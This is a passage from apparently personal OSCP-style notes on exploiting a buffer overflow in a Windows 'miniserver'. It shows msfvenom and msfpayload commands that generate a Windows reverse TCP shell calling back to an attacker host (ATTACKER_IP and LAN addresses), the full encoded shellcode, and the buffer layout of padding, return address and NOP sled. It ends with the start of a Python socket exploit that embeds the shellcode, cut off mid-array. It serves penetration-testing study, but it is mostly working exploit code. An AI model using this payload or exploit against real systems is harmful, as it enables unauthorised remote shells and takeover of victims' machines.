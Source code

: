                     <li><span>The payload will contain illegal characters, you can filter those out using *msfencode*:</span></li>
                <pre><code>$ msfpayload windows/shell_reverse_tcp LHOST=192.168.0.10 LPORT=443 R | msfencode -b "\x00\x0a\x0d"</code></pre>
                    <li><span>Generic windows reverse shell:</span></li>
                <pre><code>$ msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=443 -f  c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"</code></pre>
                    <li><span>In the end, you are going to have a shellcode as the following one:</span></li>
                <pre><code>root@kali:~/oscp/bo_miniserver# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.4 LPORT=443 -f  c -e x86/shikata_ga_nai -b "\x00\x0d"
Final size of c file: 1500 bytes
unsigned char buf[] =
"\xbf\x09\x50\xa4\x04\xdb\xd3\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
"\x52\x31\x7e\x12\x83\xc6\x04\x03\x77\x5e\x46\xf1\x7b\xb6\x04"
"\xfa\x83\x47\x69\x72\x66\x76\xa9\xe0\xe3\x29\x19\x62\xa1\xc5"
"\xd2\x26\x51\x5d\x96\xee\x56\xd6\x1d\xc9\x59\xe7\x0e\x29\xf8"
"\x6b\x4d\x7e\xda\x52\x9e\x73\x1b\x92\xc3\x7e\x49\x4b\x8f\x2d"
"\x7d\xf8\xc5\xed\xf6\xb2\xc8\x75\xeb\x03\xea\x54\xba\x18\xb5"
"\x76\x3d\xcc\xcd\x3e\x25\x11\xeb\x89\xde\xe1\x87\x0b\x36\x38"
"\x67\xa7\x77\xf4\x9a\xb9\xb0\x33\x45\xcc\xc8\x47\xf8\xd7\x0f"
"\x35\x26\x5d\x8b\x9d\xad\xc5\x77\x1f\x61\x93\xfc\x13\xce\xd7"
"\x5a\x30\xd1\x34\xd1\x4c\x5a\xbb\x35\xc5\x18\x98\x91\x8d\xfb"
"\x81\x80\x6b\xad\xbe\xd2\xd3\x12\x1b\x99\xfe\x47\x16\xc0\x96"
"\xa4\x1b\xfa\x66\xa3\x2c\x89\x54\x6c\x87\x05\xd5\xe5\x01\xd2"
"\x1a\xdc\xf6\x4c\xe5\xdf\x06\x45\x22\x8b\x56\xfd\x83\xb4\x3c"
"\xfd\x2c\x61\x92\xad\x82\xda\x53\x1d\x63\x8b\x3b\x77\x6c\xf4"
"\x5c\x78\xa6\x9d\xf7\x83\x21\x62\xaf\x8b\xb5\x0a\xb2\x8b\xb4"
"\x71\x3b\x6d\xdc\x95\x6a\x26\x49\x0f\x37\xbc\xe8\xd0\xed\xb9"
"\x2b\x5a\x02\x3e\xe5\xab\x6f\x2c\x92\x5b\x3a\x0e\x35\x63\x90"
"\x26\xd9\xf6\x7f\xb6\x94\xea\xd7\xe1\xf1\xdd\x21\x67\xec\x44"
"\x98\x95\xed\x11\xe3\x1d\x2a\xe2\xea\x9c\xbf\x5e\xc9\x8e\x79"
"\x5e\x55\xfa\xd5\x09\x03\x54\x90\xe3\xe5\x0e\x4a\x5f\xac\xc6"
"\x0b\x93\x6f\x90\x13\xfe\x19\x7c\xa5\x57\x5c\x83\x0a\x30\x68"
"\xfc\x76\xa0\x97\xd7\x32\xd0\xdd\x75\x12\x79\xb8\xec\x26\xe4"
"\x3b\xdb\x65\x11\xb8\xe9\x15\xe6\xa0\x98\x10\xa2\x66\x71\x69"
"\xbb\x02\x75\xde\xbc\x06";</code></pre>
                    <li><span>The shellcode needs to be decoded in memory, which means we need extra space in the stack. We can achieve this by adding some NOPs before the shellcode, so our buffer looks like this:</span></li>
                <pre><code>"A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode</code></pre>
                    <li><span>We add the shellcode to the previous Poc:</span></li>
                <pre><code>import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
shellcode = (
"\xbf\x09\x50\xa4\x04\xdb\xd3\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
"\x52\x31\x7e\x12\x83\xc6\x04\x03\x77\x5e\x46\xf1\x7b\xb6\x04"
"\xfa\x83\x47\x69\x72\x66\x76\xa9\xe0\xe3\x29\x19\x62\xa1\xc5"
"\xd2\x26\x51\x5d\x96\xee\x56\xd6\x1d\xc9\x59\xe7\x0e\x29\xf8"
"\x6b\x4d\x7e\xda\x52\x9e\x73\x1b\x92\xc3\x7e\x49\x4b\x8f\x2d"
"\x7d\xf8\xc5\xed\xf6\xb2\xc8\x75\xeb\x03\xea\x54\xba\x18\xb5"
"\x76\x3d\xcc\xcd\x3e\x25\x11\xeb\x89\xde\xe1\x87\x0b\x36\x38"
"\x67\xa7\x77\xf4\x9a\xb9\xb0\x33\x45\xcc\xc8\x47\xf8\xd7\x0f"
"\x35\x26\x5d\x8b\x9d\xad\xc5\x77\x1f\x61\x93\xfc\x13\xce\xd7"
"\x5a\x30\xd1\x34\xd1\x4c\x5a\xbb\x35\xc5\x18\x98\x91\x8d\xfb"
"\x81\x80\x6b\xad\xbe\xd2\xd3\x12\x1b\x99\xfe\x47\x16\xc0\x96"
"\xa4\x1b\xfa\x66\xa3\x2c\x89\x54\x6c\x87\x05\xd5\xe5\x01\xd2"
"\x1a\xdc\xf6\x4c\xe5\xdf\x06\x45\x22\x8b\x56\xfd\x83\xb4\x3c"
"\xfd\x2c\x61\x92\xad\x82\xda\x53\x1d\x63\x8b\x3b\x77\x6c\xf4"
